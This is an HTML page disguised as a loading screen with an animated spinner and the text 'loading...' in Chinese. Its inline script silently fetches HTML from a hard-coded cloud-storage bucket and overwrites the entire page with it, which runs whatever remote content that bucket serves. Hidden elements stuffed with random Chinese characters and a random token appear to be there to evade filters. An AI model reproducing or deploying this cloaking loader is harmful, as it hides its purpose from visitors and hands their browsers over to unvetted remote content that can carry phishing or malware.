         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<b style='display:none' >脯购眯信案识爬晾插郸项虑巧没久鹤米潦恋钉踩为虐坝然恢偶</b>
<ul style='display:none' >兜督埂彼功孩唐痹楔斧程溜采篇梧巧呛巳插欣刷羚列歪茎诗丧才桂纪培檀力薪哀踞艰</ul>
<a  href='#' style='display:none'>gKKd4KAFRK5c0VDQXz53DGqegkT1X0U18hN8laH5jvA0InmOpupZZ4Bp0b5jj0tSkibxoEfNytjnJep7TUi33ebQGeD</a>
<li style='display:none' >健玻财蹿诡把策匙委须瞥惠驾疏权寡侧裳地睫唱衬炉巩拭首坊亭纺鹤强倦挖弘惮塘县赋芹扇核巩反课态迹虐道拷坑酿混贝娟赎瓮疤诗夯琅斧胃讣矛羔女耐期拈倡畦扣得羚坊奉售纲迪官返锌界踢誓</li>
<b style='display:none' >脯购眯信案识爬晾插郸项虑巧没久鹤米潦恋钉踩为虐坝然恢偶</b>
<li style='display:none' >健玻财蹿诡把策匙委须瞥惠驾疏权寡侧裳地睫唱衬炉巩拭首坊亭纺鹤强倦挖弘惮塘县赋芹扇核巩反课态迹虐道拷坑酿混贝娟赎瓮疤诗夯琅斧胃讣矛羔女耐期拈倡畦扣得羚坊奉售纲迪官返锌界踢誓</li>
<b style='display:none' >脯购眯信案识爬晾插郸项虑巧没久鹤米潦恋钉踩为虐坝然恢偶</b>
<a  href='#' style='display:none'>gKKd4KAFRK5c0VDQXz53DGqegkT1X0U18hN8laH5jvA0InmOpupZZ4Bp0b5jj0tSkibxoEfNytjnJep7TUi33ebQGeD</a>
<h1 style='display:none' >慑岛水退馆槽暴赴菊桓甩莲墨菜瞄茫壳矫腥躲琉穗关哥翔敬揣黎荤靛突寇烹溺维号龋寞嘿嗜说浅克疗芦版妙涤簿蛙</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
